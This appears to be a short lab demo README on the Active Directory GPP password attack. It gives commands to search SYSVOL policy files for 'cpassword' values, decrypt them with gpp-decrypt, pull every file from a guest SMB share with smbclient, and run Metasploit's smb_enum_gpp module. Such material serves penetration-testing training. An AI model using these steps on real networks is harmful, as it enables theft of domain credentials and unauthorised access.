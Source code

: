 # GPP Attack LAB DEMO

### SCENARIO 1: 

In the first scenario, if we have a valid domain shell we can use it to search through the system and find the SYSVOL folder and access GROUPS.xml

```bash
findstr /S /I cpassword \\DOMAIN\sysvol\DOMAIN\policies\*.xml
```
Once we get the encrypted password, we can decrypt it using an inbuilt KALI tool called `gpp_decrypt`

```bash
gpp-decrypt "ENCRYPTED PASSWORD"
```

### SCENARIO 2:

If we don't have a domain user shell. Check if we are allowed to connect to any share as guest then we can find the `cpassword` value from the files on `SYSVOL` and pass them to the `gpp-decrypt`

```
smbclient \\\\TARGET IP\\SHARE

mget *
```

We can access a open share using `smbclient` and then download all the files to the the local machine using `mget *`. Then find the `cPassword` and decrypt it. 

We can also use Metasploit modules to automatically find and get the cleartext password.

```
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS <TARGET IP>
set SMBDomain <TARGET DOMAIN>
set SMBUser <USERNAME>
set SMBPass <PASSWORD>
exploit
```

